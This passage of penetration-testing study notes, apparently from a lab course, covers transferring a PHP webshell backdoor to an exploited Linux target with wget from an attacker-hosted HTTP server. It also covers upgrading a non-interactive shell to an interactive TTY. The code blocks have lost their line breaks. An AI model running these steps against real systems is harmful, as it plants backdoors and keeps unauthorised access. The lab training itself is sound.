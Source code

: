 <figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9fda9e6cda6af72c652286651e6ce3dbd0958793%2Fimage-20230428215801961.png?alt=media" alt=""><figcaption></figcaption></figure>

After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.

2 terminal sessions are necessary - use `tmux` utility to get more sessions.

​[**`tmux`**](https://github.com/tmux/tmux/wiki) - _is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside i&#x74;_&#x73;udo apt install tmux -y# Attacker machinetmux# ... Exploitation with MSFconsole in Terminal 0 ...# CTRL+B and then C to open a new terminal session​cd /usr/share/webshells/php/ip -br -c a192.219.50.2python3 -m http.server 80# CTRL+B then 0 (zero) to navigate to the first Terminal session# Target machine/bin/bash -iwget http://192.219.50.2/php-backdoor.phpwget http://\<ATTACKER\_IP>/php-backdoor.php

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-3881bc1a643bbd134eba3dcaeed1b07ea5383ec9%2Fimage-20230428232055646.png?alt=media" alt=""><figcaption></figcaption></figure>

<details><summary>Transferring files to Windows</summary></details>

## Interactive Shells <a href="#interactive-shells" id="interactive-shells"></a>

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.

* After the exploitation (using `MSFconsole`, `netcat`, etc), a **non-interactive shell** is obtained since it doesn't provide with a prompt
  * This is a command shell session

Non-interactive Shell

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-6779d49a717c21e3f41b609b3f42d87afae5543e%2Fimage-20230428234859491.png?alt=media" alt=""><figcaption></figcaption></figure>

* Display the list of **shells** on the target system

cat /etc/shells# /etc/shells: valid login shells/bin/sh/bin/dash/bin/bash/bin/rbash​/bin/bash -i​/bin/sh -i

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-1437180395d983df1ebed08f7894baa3b9ef8623%2Fimage-20230428234334800.png?alt=media" alt=""><figcaption></figcaption></figure>

#### Spawn [TTY Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#spawn-shells)​ <a href="#spawn-tty-shells" id="spawn-tty-shells"></a>

**Bash**

* Upgrade to a simple **`bash`** or **`sh`** session (assuming `bash` is installed on the target system)

/bin/bash -i/bin/sh -iSHELL=/bin/bash script -q /dev/null​# Setup environment variablesexport PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binexport TERM=xtermexport SHELL=/bin/bash

**​**[**Python**](https://docs.python.org/3/library/pty.html)**​**

* From the non-interactive shell session, check `Python` version (if present)

python --versionPython 2.7.9
